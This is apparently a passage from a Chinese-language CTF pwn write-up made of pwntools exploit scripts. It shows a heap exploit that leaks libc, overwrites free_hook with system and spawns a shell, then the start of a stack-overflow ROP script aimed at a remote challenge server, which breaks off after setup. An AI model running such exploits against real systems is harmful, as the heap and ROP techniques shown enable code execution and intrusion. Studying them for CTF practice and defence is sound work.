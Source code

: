 ```python
    ru('id:')
    sl(str(idx))
    ru('>>')

add(0xf8)
add(0xf8)
add(0xf8)
delete(0)
add(0xf8)
show(0)
libc = u64(ru('\n')[:-1]+'\0\0')
base = libc-0x3a5678
free_hook = base+0x3a77c8
system = base+0x41490
binsh = base+0x1633e8
ru('>>')

edit(0,0x100,(p64(0)+p64(0xf1)+p64(0x6020E0-0x18)+p64(0x6020E0-0x10)).ljust(0xf0,'\x00')+p64(0xf0)+p64(0x100)[:7])

delete(1)
edit(0,0x31,p64(0)*3+p64(0x6020E0)+p64(free_hook)+p64(binsh))
edit(1,9,p64(system))


sl('4')
ru('id:')
sl('2')

print(hex(libc))
p.interactive()
```

### 於讴

简单栈溢出，和拈花一样

```python
from pwn import *

debug=0

context.log_level='debug'

if debug:
    p=process('./pwn')
    #p=process('',env={'LD_PRELOAD':'./libc.so'})
    gdb.attach(p)
else:
    p=remote('111.33.164.6', 50006)

def ru(x):
    return p.recvuntil(x)

def se(x):
    p.send(x)

def sl(x):
    p.sendline(x)

r=ROP('./pwn')
e=ELF('./pwn')
prdi = r.rdi[0]
prsi = r.rsi[0]
```